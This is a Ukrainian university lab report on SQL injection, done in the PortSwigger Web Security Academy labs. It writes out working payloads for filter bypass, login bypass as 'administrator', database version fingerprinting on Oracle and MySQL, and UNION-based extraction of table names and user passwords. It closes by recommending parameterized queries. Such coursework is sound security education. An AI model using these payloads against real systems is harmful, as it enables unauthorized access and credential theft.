Ввід стає кодом
Дані користувача підставляються в SQL-запит без фільтрації чи параметризації — і змінюють його логіку.
Лабораторна робота №8 · Безпека веб-додатків
Отримання даних, обхід авторизації, визначення структури БД та витік конфіденційної інформації.
НУ «Львівська політехніка» · ІКТА · кафедра ЗІ · 2026
Мета роботи
Дані користувача підставляються в SQL-запит без фільтрації чи параметризації — і змінюють його логіку.
Параметри URL, поля форми входу, вибірки товарів — будь-яке місце, де ввід потрапляє в запит.
Параметризовані запити та сувора валідація й санітизація всього, що надходить від користувача.
Усі атаки виконано в контрольованому середовищі PortSwigger Web Security Academy.
Завдання
Анатомія атаки
Одинарна лапка завершує строкове значення — далі можна писати власний SQL.
Умова виконується для кожного рядка, тож фільтр перестає щось відсіювати.
Усе після подвійного дефіса, зокрема AND released = 1, ігнорується.
Завдання 1 · WHERE
Параметр category з URL потрапляє в запит без фільтрації. Пейлоад вимикає умову released = 1, і база повертає всі рядки таблиці products.
Пейлоад: Gifts' OR 1=1--

Завдання 2 · Login bypass
У поле Username введено administrator'--, пароль — будь-який. Перевірка пароля перетворюється на коментар.
Результат: сесія адміністратора без перевірки пароля


Завдання 3–4
Знаючи СУБД, можна обрати правильний синтаксис і системні таблиці для наступних кроків.
Завдання 3 · Oracle
' UNION SELECT NULL,NULL FROM DUAL--Без помилки → запит повертає 2 стовпці. В Oracle FROM обов'язковий, тому DUAL.' UNION SELECT banner,NULL FROM v$version--Стовпець banner системного подання з версією.Oracle Database 11g Express Edition Release 11.2.0.2.0

Завдання 4 · MySQL / Microsoft
'+UNION+SELECT+NULL,NULL%23Тут FROM не потрібен. Коментар # в URL кодується як %23.'+UNION+SELECT+@@version,NULL%23Глобальна змінна @@version повертає версію сервера.8.0.42-0ubuntu0.20.04.1

Порівняння
| Що потрібно | Oracle | MySQL / Microsoft |
|---|---|---|
| Порожній SELECT | FROM DUAL обов'язково | можна без FROM |
| Версія | v$version (banner) | @@version |
| Коментар | -- | # (→ %23) або -- |
| Список таблиць | all_tables | information_schema.tables |
| Регістр імен | ВЕРХНІЙ | як є |
Завдання 5–6
Завдання 5 · не-Oracle · information_schema
' UNION SELECT NULL,NULL-- → запит повертає 2 стовпці
...table_name FROM information_schema.tables-- → знайдено users_...
...column_name ... WHERE table_name='users_...'--
' UNION SELECT username,password FROM users_...--
Завдання 5 · результат

users_...
Завдання 6 · Oracle
Oracle не має information_schema. Метадані беруться із системних таблиць, а імена об'єктів — у ВЕРХНЬОМУ регістрі.
Отримано пароль administrator → доступ до панелі

USERS_...
Завдання 7 · основа UNION
Для UNION обидва запити мають мати однакову кількість стовпців. Додаємо NULL по одному, поки помилка не зникне.
Рівно 3 стовпці — лабораторію розв'язано


Висновки
Умови ' OR 1=1-- та administrator'-- розкрили приховані дані й обійшли автентифікацію без пароля.
v$version і @@version дали тип і версію — відправну точку для наступних векторів атаки.
Через information_schema та all_tables розкрито структуру БД і вилучено логіни й паролі.
Параметризовані запити (Prepared Statements) і сувора валідація вводу. SQLi лишається однією з найнебезпечніших вразливостей.
Дякую за увагу